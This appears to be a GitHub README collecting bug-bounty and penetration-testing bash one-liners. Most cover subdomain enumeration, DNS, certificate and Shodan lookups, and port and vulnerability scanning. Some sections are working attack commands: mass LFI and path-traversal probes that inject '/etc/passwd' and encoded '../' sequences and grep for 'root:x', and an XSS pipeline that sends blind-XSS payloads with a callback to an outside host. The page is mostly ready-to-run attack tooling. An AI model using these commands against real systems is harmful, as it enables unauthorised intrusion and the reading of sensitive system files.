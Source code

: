 ## Pentesting One-Liners Toolkit  
A curated collection of powerful reconnaissance and vulnerability scanning one-liners for bug bounty hunters and penetration testers.  

---

##  Recon Pipeline  

```bash  
subfinder -d redacted.com -all -active | shuffledns -d redacted.com -r resolvers.txt -w n0kovo_subdomains_huge.txt | tee subs.txt | dnsx -silent -a -aaaa -cname -resp | anew resolved.txt & naabu -l resolved.txt -nmap -rate 2000 | anew ports.txt & httpx -l ports.txt -silent | anew alive.txt & katana -list alive.txt -kf all -jc | anew urls.txt & nuclei -l urls.txt -es info,unknown -ept ssl -ss template-spray | tee nuclei.txt  
Full-chain reconnaissance from subdomain discovery to vulnerability scanning.
```

## Juicy Subdomains

```bash  
subfinder -d target.com -silent | dnsx -silent | cut -d ' ' -f1 | grep -Ei 'api|dev|stg|test|admin|demo|stage|pre|vpn'  
Find high-value subdomains using keyword patterns.
```

## BufferOver.run Lookup

```bash  
curl -s https://dns.bufferover.run/dns?q=.target.com | jq -r .FDNS_A[] | cut -d',' -f2 | sort -u  
Query BufferOver's DNS database for historical records.
```

## CertSpotter Certificates

```bash  
curl -s "https://api.certspotter.com/v1/issuances?domain=target.com&include_subdomains=true&expand=dns_names" | jq .[].dns_names | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u  
Extract subdomains from SSL certificates.
```

## Subdomain Takeover Check

```bash  
cat subs.txt | xargs -P50 -I% bash -c 'dig % | grep CNAME' | awk '{print $1}' | sed 's/\.$//g' | httpx -silent -status-code -cdn -csp-probe -tls-probe  
Detect dangling DNS records for potential takeover.
```

## LFI Scanning

```bash  
cat targets.txt | gau | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P25 sh -c 'curl -s "%" | grep -q "root:x" && echo "[+] VULN: %"'  
Automated LFI payload testing with parallel requests.
```

## Path Traversal Bypass

```bash  
cat targets.txt | while read host; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host VULNERABLE"; done  
Test for LFI bypasses using directory traversal.
```

## XSS Hunting

```bash  
subfinder -dL domainlist.txt | dnsx | shuf | gau | anew | egrep -iv "\.(jpg|jpeg|gif|tif|tiff|png|ttf|woff|woff2|php|ico|pdf|svg|txt|js)$" | urless | dalfox pipe -b https://xss.hunter/?q=1  
Full-chain XSS discovery pipeline with active probing.
```

## Shodan CLI

```bash  
shodan search ssl.cert.subject.cn:"target.com" --fields ip_str | anew ips.txt  
Find IPs associated with target's SSL certificates.
```

## Tools Used
Tool	Purpose	GitHub
-- Subfinder	Subdomain discovery	https://github.com/projectdiscovery/subfinder
-- ShuffleDNS	Mass DNS resolver	https://github.com/projectdiscovery/shuffledns
-- dnsx	DNS toolkit	https://github.com/projectdiscovery/dnsx
-- Naabu	Port scanner	https://github.com/projectdiscovery/naabu
-- HTTPX	HTTP probing	https://github.com/projectdiscovery/httpx
-- Katana	Crawler	https://github.com/projectdiscovery/katana
-- Nuclei	Vulnerability scanning	https://github.com/projectdiscovery/nuclei
-- Gau	URL collector	https://github.com/lc/gau
-- Dalfox	XSS scanner	https://github.com/hahwul/dalfox
-- Shodan CLI	Internet intelligence	https://cli.shodan.io/

## Credit

 -- https://x.com/TheMsterDoctor1/status/1905471835128373665
 -- https://github.com/ifconfig-me/cool-bugbounty-oneliners?tab=readme-ov-file

